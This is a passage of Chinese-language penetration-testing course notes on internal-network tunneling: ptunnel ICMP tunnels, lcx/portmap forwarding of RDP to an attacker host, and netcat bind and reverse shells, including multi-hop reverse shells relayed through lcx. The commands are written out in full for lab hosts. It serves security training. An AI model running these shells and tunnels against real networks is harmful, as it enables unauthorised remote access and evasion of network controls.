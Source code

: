 -lp ##表示需要监听的本地tcp端口

-da ##指定需要转发的机器的IP（即目标内网某一机器的内网IP）

-dp ##指定需要转发的机器的端口（即目标内网某一机器的内网端口）

-x ##设置连接的密码

Webserver：./ptunnel -x xiaodi

Hacker xiaodi：./ptunnel -p 192.168.76.150 -lp 1080 -da 192.168.33.33 -dp 3389 -x xiaodi #转发的3389请求数据给本地1080

Hacker xiaodi：rdesktop 127.0.0.1 1080

老版本介绍：https://github.com/f1vefour/ptunnel(需自行编译)

新版本介绍：https://github.com/esrrhs/pingtunnel(二次开发版)



传输层转发隧道Portmap使用-检测,利用

windows: lcx 

linux：portmap

lcx -slave 攻击IP 3131 127.0.0.1 3389 //将本地3389给攻击IP的3131

lcx -listen 3131 3333 //监听3131转发至3333



传输层转发隧道Netcat使用-检测,利用,功能

Kali2020-god\webserver-god\sqlserver|dc

1.双向连接反弹shell

正向：攻击连接受害

​    受害：nc -ldp 1234 -e /bin/sh                      //linux

​         nc -ldp 1234 -e c:\windows\system32\cmd.exe  //windows

​    攻击：nc 192.168.76.132 1234                       //主动连接

反向：受害连接攻击

​    攻击：nc -lvp 1234

​    受害：nc 攻击主机IP 1234 -e /bin/sh       

​         nc 攻击主机IP 1234 -e c:\windows\system32\cmd.exe      

2.多向连接反弹shell-配合转发

反向：

god\Webserver：Lcx.exe -listen 2222 3333

god\Sqlserver：nc 192.168.3.31 2222 -e c:\windows\system32\cmd.exe

kali或本机：nc -v 192.168.76.143 3333

正向该怎么操作呢？实战中改怎么选择正向和反向？
